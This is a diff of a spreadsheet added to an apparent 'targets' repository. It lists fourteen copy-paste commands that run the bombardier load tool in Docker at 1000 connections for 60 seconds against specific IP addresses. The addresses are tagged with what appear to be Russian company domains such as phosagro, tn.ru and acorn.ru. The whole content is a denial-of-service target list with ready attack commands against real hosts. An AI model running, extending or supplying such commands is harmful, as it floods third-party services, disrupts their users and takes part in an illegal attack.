

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 37: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.195.108.157&& sleep 5; | 217.195.108.157 | phosagro
+row 38: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.195.100.86&& sleep 5; | 217.195.100.86 | phosagro
+row 39: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.248.126.190&& sleep 5; | 212.248.126.190 | tn.ru
+row 40: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.107.67.67&& sleep 5; | 91.107.67.67 | tn.ru
+row 41: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.98.85.145&& sleep 5; | 185.98.85.145 | tn.ru
+row 42: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 77.37.174.117&& sleep 5; | 77.37.174.117 | tn.ru
+row 43: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 170.55.66.150&& sleep 5; | 170.55.66.150 | acorn.ru
+row 44: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 37.28.163.131&& sleep 5; | 37.28.163.131 | acorn.ru
+row 45: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.176.31.86&& sleep 5; | 212.176.31.86 | acorn.ru
+row 46: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 194.84.143.170&& sleep 5; | 194.84.143.170 | acorn.ru
+row 47: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.176.31.67&& sleep 5; | 212.176.31.67 | acorn.ru
+row 48: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.176.31.73&& sleep 5; | 212.176.31.73 | acorn.ru
+row 49: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.176.31.79&& sleep 5; | 212.176.31.79 | acorn.ru
+row 50: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 37.28.163.132&& sleep 5; | 37.28.163.132 | acorn.ru
```
